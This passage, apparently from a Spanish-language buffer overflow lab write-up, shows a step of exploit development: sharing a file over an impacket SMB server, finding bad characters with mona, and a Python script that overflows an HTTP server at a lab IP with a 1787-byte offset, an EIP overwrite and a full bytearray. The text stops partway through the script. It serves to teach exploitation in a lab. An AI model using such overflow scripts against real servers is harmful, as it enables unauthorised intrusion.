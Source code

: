 ![Untitled](/assets/Buffer-Overflow/Lab2/Untitled 5.png)

Este archivo se pasará a la máquina local por medio de SMB:

```bash
# En la máquina del atacante:
impacket-smbserver smbFolder $(pwd) -smb2support
```

Con el SaMBa corriendo, ahora se puede copiar el archivo “bytearray.txt” en el directorio compartido:

![Untitled](/assets/Buffer-Overflow/Lab2/Untitled 6.png)

Ahora la idea es enviar el bytearray para sobrescribir el ESP para detectar bytes que no se estén interpretando, estos bytes serán badchars por lo que será necesario crear un nuevo bytearray excluyendo estos badchars y en el script añadir este nuevo bytearray y repetir el proceso hasta que no hayan más. La detección de badchars se puede hacer utilizando mona:

```bash
!mona compare -a 0x<ESPAddress> -f \Users\bryan\Desktop\Analysis\bytearray.bin
```

![Untitled](/assets/Buffer-Overflow/Lab2/Untitled 7.png)

El script quedará de la siguiente manera:

```bash
#!/usr/bin/python3

import socket
import sys

# Variables globales
ip_add = "192.168.0.104"
port = 80
offset= 1787

before_eip = b"A"*offset
eip = b"B"*4
after_eip = (b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

def exploit ():

    try:
        c = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        c.settimeout(7)
        c.connect((ip_add, port))

        c.send(b"GET " + before_eip + eip + after_eip + b" HTTP/1.1\r\n\r\n")
        c.recv(1024)
        c.close()
```